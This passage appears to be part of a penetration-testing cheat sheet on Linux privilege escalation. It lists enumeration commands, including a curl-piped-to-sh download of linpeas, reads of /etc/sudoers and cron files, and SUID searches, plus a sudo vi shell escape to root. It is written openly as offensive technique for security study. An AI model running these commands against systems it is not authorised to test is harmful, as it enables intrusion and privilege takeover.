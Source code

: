 #### Automated Enumeration
```bash
# Download and run enumeration scripts
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linux-exploit-suggester.sh
./LinEnum.sh
```

#### Manual Checks
```bash
# SUID binaries
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Writable directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null

# Sudo privileges
sudo -l
cat /etc/sudoers

# Cron jobs
cat /etc/crontab
ls -la /etc/cron.*
crontab -l

# Kernel exploits (research based on version)
uname -r
cat /etc/issue
```

#### Common Privilege Escalation Vectors
```bash
# Exploiting sudo misconfigurations
sudo -l
# If you see (ALL) NOPASSWD: /bin/vi
sudo vi
:!/bin/bash

# SUID binary exploitation
# Example: find exploitable SUID binaries on GTFOBins

# Cron job exploitation
# Look for world-writable scripts in cron jobs

# Kernel exploits (last resort, use carefully)
# Research specific kernel version exploits
```

### Windows Privilege Escalation
